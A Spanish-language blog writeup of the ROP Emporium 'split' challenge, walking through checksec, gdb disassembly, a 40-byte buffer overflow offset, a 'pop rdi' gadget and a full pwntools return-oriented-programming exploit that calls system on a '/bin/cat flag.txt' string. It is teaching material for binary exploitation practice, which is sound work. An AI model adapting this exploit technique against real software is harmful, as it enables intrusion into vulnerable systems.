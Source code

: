 ```yaml
---
layout: post
title: Split ROP Emporium (x86_64)
comments: true
categories: [Pwn, Writeups, ROPEmporium]
---
```


Este será el primer post de los writeups de [ROP Emporium](https://ropemporium.com/challenge/split.html), obviaremos el reto *ret2win*, ya que es
excesivamente simple. Con esta serie de posts aprenderemos sobre una de las técnicas más utilizadas en la explotación de binarios, la 
[***ROP***]({% post_url /teoria/2024-08-15-ROP %}), ó *Return Orineted Programming* (Programación orientada a *return*).

## Reconocimiento

Como siempre comenzamos lanzando *checksec*:

```checksec
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

Vemos que tan solo tiene el *NX bit*, por lo que el ataque será probablemente mediante técnicas de *ROP*.

Analizando con *gdb-pwndbg*:

> **Funciones**
```gdb
0x0000000000400697  main
0x00000000004006e8  pwnme
0x0000000000400742  usefulFunction
```

> **Main**
```gdb
0x0000000000400697 <+0>:	push   rbp
0x0000000000400698 <+1>:	mov    rbp,rsp
0x000000000040069b <+4>:	mov    rax,QWORD PTR [rip+0x2009d6]        # 0x601078 <stdout@@GLIBC_2.2.5>
0x00000000004006a2 <+11>:	mov    ecx,0x0
0x00000000004006a7 <+16>:	mov    edx,0x2
0x00000000004006ac <+21>:	mov    esi,0x0
0x00000000004006b1 <+26>:	mov    rdi,rax
0x00000000004006b4 <+29>:	call   0x4005a0 <setvbuf@plt>
0x00000000004006b9 <+34>:	mov    edi,0x4007e8
0x00000000004006be <+39>:	call   0x400550 <puts@plt>
0x00000000004006c3 <+44>:	mov    edi,0x4007fe
0x00000000004006c8 <+49>:	call   0x400550 <puts@plt>
0x00000000004006cd <+54>:	mov    eax,0x0
0x00000000004006d2 <+59>:	call   0x4006e8 <pwnme>
0x00000000004006d7 <+64>:	mov    edi,0x400806
0x00000000004006dc <+69>:	call   0x400550 <puts@plt>
0x00000000004006e1 <+74>:	mov    eax,0x0
0x00000000004006e6 <+79>:	pop    rbp
0x00000000004006e7 <+80>:	ret
```

> **Pwnme**
```gdb
0x00000000004006e8 <+0>:	push   rbp
0x00000000004006e9 <+1>:	mov    rbp,rsp
0x00000000004006ec <+4>:	sub    rsp,0x20
0x00000000004006f0 <+8>:	lea    rax,[rbp-0x20]
0x00000000004006f4 <+12>:	mov    edx,0x20
0x00000000004006f9 <+17>:	mov    esi,0x0
0x00000000004006fe <+22>:	mov    rdi,rax
0x0000000000400701 <+25>:	call   0x400580 <memset@plt>
0x0000000000400706 <+30>:	mov    edi,0x400810
0x000000000040070b <+35>:	call   0x400550 <puts@plt>
0x0000000000400710 <+40>:	mov    edi,0x40083c
0x0000000000400715 <+45>:	mov    eax,0x0
0x000000000040071a <+50>:	call   0x400570 <printf@plt>
0x000000000040071f <+55>:	lea    rax,[rbp-0x20]
0x0000000000400723 <+59>:	mov    edx,0x60
0x0000000000400728 <+64>:	mov    rsi,rax
0x000000000040072b <+67>:	mov    edi,0x0
0x0000000000400730 <+72>:	call   0x400590 <read@plt>
0x0000000000400735 <+77>:	mov    edi,0x40083f
0x000000000040073a <+82>:	call   0x400550 <puts@plt>
0x000000000040073f <+87>:	nop
0x0000000000400740 <+88>:	leave
0x0000000000400741 <+89>:	ret
```

> **UsefulFunction**
```gdb
0x0000000000400742 <+0>:	push   rbp
0x0000000000400743 <+1>:	mov    rbp,rsp
0x0000000000400746 <+4>:	mov    edi,0x40084a
0x000000000040074b <+9>:	call   0x400560 <system@plt>
0x0000000000400750 <+14>:	nop
0x0000000000400751 <+15>:	pop    rbp
0x0000000000400752 <+16>:	ret
```

Vemos que tenemos una vulnerabilidad de tipo *Buffer overflow*. Con *cyclic* podemos calcular el offset, que en este caso es **40**.

Vemos también que tenemos una función *usefulFunction*, que nos da una llamada a *system*. Sin embargo, en este caso, se llama a `"/bin/ls"`:

```gdb
0x0000000000400746 <+4>:	mov    edi,0x40084a
0x000000000040074b <+9>:	call   0x400560 <system@plt>

[...]

pwndbg> x/s 0x40084a
0x40084a:	"/bin/ls"
```

Por lo que si conseguimos meter en *rdi* la cadena `"/bin/cat flag"`, nos imprimirá la flag. Por suerte dicha cadena existe en el binario:

```gdb
pwndbg> search "/bin/cat"
Searching for value: '/bin/cat'
split           0x601060 '/bin/cat flag.txt'
```

Solo nos queda buscar un gadget que nos haga el trabajo. En mi caso utilizaré *ROPGadget* (con *ropper* no aparecía):

```bash
ROPgadget --binary split | grep "pop rdi"
0x00000000004007c3 : pop rdi ; ret
```

## Explotación

El script quedaría:

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-

from pwn import *

# Set up pwntools for the correct architecture
context.update(arch='amd64')
exe = './split'

ip=""
port=30303

def start():
    if args.REMOTE:
        return remote(ip, port)
    else:
        return process(exe)

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================

io = start()

padding = 40*b'A'

syscall = 0x000000000040074b
pop_rdi = 0x00000000004007c3
bin_cat = 0x601060

payload = padding + p64(pop_rdi) + p64(bin_cat) + p64(syscall)

io.send(payload)
io.interactive()
```

Al ejecutar nos dará la flag.

Este es un reto sencillito para calentar e ir afianzando los conceptos base. ¡Nos vemos en el siguiente post!
